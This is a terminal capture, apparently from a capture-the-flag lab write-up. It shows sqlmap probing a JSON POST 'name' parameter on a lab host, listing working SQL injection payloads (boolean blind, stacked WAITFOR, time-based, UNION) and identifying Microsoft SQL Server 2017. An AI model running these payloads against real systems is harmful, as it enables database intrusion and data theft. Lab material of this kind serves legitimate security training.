 ```

root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
...[snip]...
[*] starting @ 18:08:31 /2020-03-30/

[18:08:31] [INFO] parsing HTTP request from 'colleagues.request'
[18:08:31] [INFO] loading tamper module 'charunicodeescape'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
...[snip]...
[18:31:01] [INFO] (custom) POST parameter 'JSON name' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[18:31:01] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
(custom) POST parameter 'JSON name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 258 HTTP(s) requests:
---                                                        
Parameter: JSON name ((custom) POST)                       
    Type: boolean-based blind                              
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: {"name":"test' OR NOT 3782=3782-- bJBd"}

    Type: stacked queries                                  
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: {"name":"test';WAITFOR DELAY '0:0:5'--"}

    Type: time-based blind                                 
    Title: Microsoft SQL Server/Sybase time-based blind (IF)                                                          
    Payload: {"name":"test' WAITFOR DELAY '0:0:5'-- FvDZ"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CH
AR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR
(111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}
---
[18:31:01] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:31:02] [INFO] testing Microsoft SQL Server
[18:31:07] [INFO] confirming Microsoft SQL Server
[18:31:22] [INFO] the back-end DBMS is Microsoft SQL Server
back-end DBMS: Microsoft SQL Server 2017                   
[18:31:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.179' 

```
